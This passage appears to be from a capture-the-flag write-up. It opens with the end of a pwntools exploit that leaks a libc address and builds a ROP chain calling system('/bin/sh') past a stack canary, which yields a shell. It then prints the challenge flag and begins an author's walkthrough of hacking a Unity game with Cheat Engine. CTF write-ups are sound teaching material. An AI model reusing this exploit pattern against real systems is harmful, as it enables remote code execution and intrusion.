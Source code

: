 ```py
# leak libc addr
show()
p.recvuntil(b"Slot #7")
p.recvuntil(b"   | ")

leak = u64(p.recvline().strip().ljust(8,b'\x00'))
print(f"{hex(leak) = }")

offset = 0x21ace0

libc.address = leak - offset
print(f"{hex(libc.address) = }")

# build payload
rop = ROP(libc)

rop.raw(rop.ret)
rop.system(next(libc.search(b"/bin/sh")))

payload = flat({0x38: p64(canary) + p64(0) + rop.chain()})

# send payload
p.sendline()
p.sendlineafter(b">>", "4")
p.sendlineafter(b":", "1")
p.sendlineafter(b":", payload)

p.clean()
p.interactive()
```

Flag: `grey{y0u_4r3_50rc3r3r_supr3m3_m45t3r_0f_th3_myst1c_4rts_mBRt!y4vz5ea@uq}`

# Greycat's Adventure

So, my original idea was to come up with a Unity game and make the participants hack the game in order to achieve the impossible achievements. When I finished compiling and testing out the game, I realized I did not actually encrypt the flags in my code, which means it would be possible to `strings` most of the flags (less 1) if you find the correct il2cpp file. But at that point it was already really late, in every sense of the word, so I kinda got lazy to re-build and re-test the project. Well, lesson learnt, next game-related challenge will be better.

Either way, I will be sharing the intended solution here in case anyone is interested. I'll go through the achievements one by one. For ease of understanding and convenience of use, I will be using Cheat Engine (yep.) to hack the game.

